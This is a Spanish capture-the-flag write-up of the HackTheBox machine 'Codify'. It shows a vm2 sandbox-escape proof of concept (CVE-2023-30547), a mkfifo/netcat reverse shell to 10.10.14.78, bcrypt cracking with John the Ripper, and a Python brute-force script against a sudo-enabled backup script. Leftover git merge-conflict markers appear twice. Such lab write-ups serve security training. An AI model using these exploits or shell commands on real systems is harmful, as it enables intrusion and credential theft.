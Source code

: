 ```yaml
---
layout: single
title: HTB codify writeup
date: 2023-11-07
classes: wide
categories:
  - writeups
tags:
  - HTB
  - writeup
  - pentesting
---
```








<h1>Resumen || </h1><br>
<div style="text-align: justify;">
Codify es una máquina Linux que ejecuta un servidor HTTP y aloja una aplicación web desactualizada. Aprovecharemos las vulnerabilidades en esta aplicación para acceder al sistema, donde descubriremos credenciales encriptadas en formato bcrypt. Estas credenciales pueden ser explotadas de manera sencilla utilizando John The Ripper. Una vez que hayamos obtenido acceso al usuario Joshua, investigaremos cómo vulnerar un código en bash que cuenta con permisos sudo pero no está implementado con todas las medidas de seguridad necesarias. Esto nos permitirá elevar nuestros privilegios al nivel de root.
</div>

# Reconocimiento

## Puertos

Realizamos un escaneo rápido de puertos y versiones de servicios a la máquina víctima:

```shell
└─$ nmap -p- -sV 10.10.11.239 -T5 -oN nmap.txt -vvv
```

![](/assets/images/HTB-writeup-codify/Pasted image 20231107175436.png)
<<<<<<< HEAD


=======
>>>>>>> f6b014c07e068104233fe7bab9e18ffa9b6873d6
## Web

El puerto 80 tiene un servidor http activo: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107175901.png)

A simple vista hay tres páginas: `/limitations`, `/about`, `/editor`.

El servidor contiene una aplicación web que permite testear código Node JS. Una Reverse Shell sencilla en este lenguaje no funciona por los módulos restringidos: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107180512.png)

La aplicación funciona mediante la libreria vm2 en la versión 3.9.16. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107180126.png)
<<<<<<< HEAD


=======
>>>>>>> f6b014c07e068104233fe7bab9e18ffa9b6873d6
# Penetración 

## Web

La versión 3.9.16 de la librería vm2 tiene una vulnerabilidad registrada como [CVE-2023–30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547), que permite escapar de las restricciones del editor. Con ello podemos ejecutar código malicioso y una reverse shell con la que acceder al sistema víctima. 


### Exploit

Haremos uso del siguiente [PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244):

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('whoami');
}
`

console.log(vm.run(code));
```

![](/assets/images/HTB-writeup-codify/Pasted image 20231107181134.png)

Una vez confirmada la vulnerabilidad, el acceso es ya algo mecánico. Abrimos puerto en escucha: 

```shell
nc -lvp 4444
```

Introducimos una [reverse shell](https://www.revshells.com/) con el siguiente comando: 

```shell 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.78 4444 >/tmp/f
```



![](/assets/images/HTB-writeup-codify/Pasted image 20231107181459.png)

Una vez dentro, vamos a necesitar, por comodidad, una shell con todas sus funciones. Habrá que ejecutar lo siguiente: 

```shell
script /dev/null -c bash
tty
CTRL+Z
stty raw -echo;fg
reset
xterm
export TERM=xterm
```

En `/home` vemos un usuario posiblemente vulnerable: `joshua`
En `/var/www/contact` hay un archivo SQLite con un hash en bcrypt. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107182336.png)

Con John The Ripper se tarda menos de treinta segundos en hacerse cargo de ella: 

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```


# Acceso y Escalada de Privilegios

```shell
ssh joshua@10.10.11.239
```

Aquí está la flag `user.txt`.

Para escalar privilegios vamos a revisar qué puede hacer nuestro usuario Joshua: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107182843.png)

Parece ser que podemos ejecutar un comando con permisos sudo que pregunta por la contraseña root. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107183231.png)

Está programado con ciertas vulnerabilidades de seguridad. Al no estar las variables entre comillas, nos permite realizar que se lean como comandos y no sólo como variables.

El camino fácil es construir un script en python que automatice el trabajo de fuerza bruta. 

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
    for character in all:  
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
        if "Password confirmed!" in output:  
            password += character  
            print(password)  
            break  
    else:  
        found = True
```

Lo creamos en `/tmp`, le damos permisos de ejecución y nos da la contraseña en cuestión de minutos. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107183856.png)
